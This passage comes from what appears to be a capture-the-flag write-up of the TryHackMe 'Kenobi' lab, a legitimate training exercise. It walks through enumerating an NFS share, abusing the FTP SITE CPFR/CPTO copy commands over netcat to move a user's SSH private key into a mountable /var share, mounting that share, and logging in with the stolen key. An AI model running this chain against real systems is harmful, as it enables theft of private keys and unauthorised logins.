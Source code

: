 ![image](https://i.postimg.cc/7YqF6kzP/screenshot-157.jpg){: width='1280' height='720'}

Now we know from our nmap scan earlier that we have `nfs` service running. Lets try to enumerate it and see if we have permission to mount any share.

``` shell
showmount -e {IP}
```
{: .nolineno }

![image](https://i.postimg.cc/0j1bmQsB/screenshot-157.jpg){: width='1280' height='720'}

As we can see we have  `/var` directory mountable. That's great. Now we can take advantage of both of this misconfigurations. i.e We have a ftp version vulnerable so we can enter into a machine using ftp session and copy the id_rsa file from kenobi's home directory into the folder which we have mountable permission for , and then later mount that folder in our attacking machine and acquire that id_rsa file. Let's do it. For some of you it may sound complicated at first but just follow along the process and it's very simple to understand.

We can now connect to the victim machine using `nc` (netcat). We used the CPFR command to copy the id_rsa from the home directory of the Kenobi user. Then we used the CPTO command to provide the destination address for the id_rsa file. We transferred the file to /var directory.

```shell
nc {IP} 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```
{: .nolineno}

![image](https://i.postimg.cc/FHdTprkx/screenshot-157.jpg){: width='1280' height='720'}


Now that we have successfully transferred the id_rsa into the var directory, we can mount the /var directory so that we can access the id_rsa files on our local machine.
We can create a directory named `nfs` n `/tmp` folder and the visit that folder and grab the `id_rsa` file present in the `/var` folder to our local machine and the change the permission of the `id_rsa` file to be able to use it to connect to ssh without any issue. Follow the below steps / commands.

```shell
mkdir /tmp/nfs
mount IP:/var /tmp/nfs
cd /tmp/nfs/var
cp id_rsa /home/kali/TryHackme/Kenobi/
cd /home/kali/TryHackme/Kenobi/
chmod 600 id_rsa
```
{: .nolineno}

![image](https://i.postimg.cc/8kZwVJhH/screenshot-157.jpg){: width='1280' height='720'}

![image](https://i.postimg.cc/rmNTpC8z/screenshot-157.jpg){: width='1280' height='720'}

![image](https://i.postimg.cc/Fzk2Lyvj/screenshot-157.jpg){: width='1280' height='720'}
With the help of the id_rsa key, we were able to connect to the target machine as the Kenobi user. Here we were able to read the first flag by the name of user.txt.
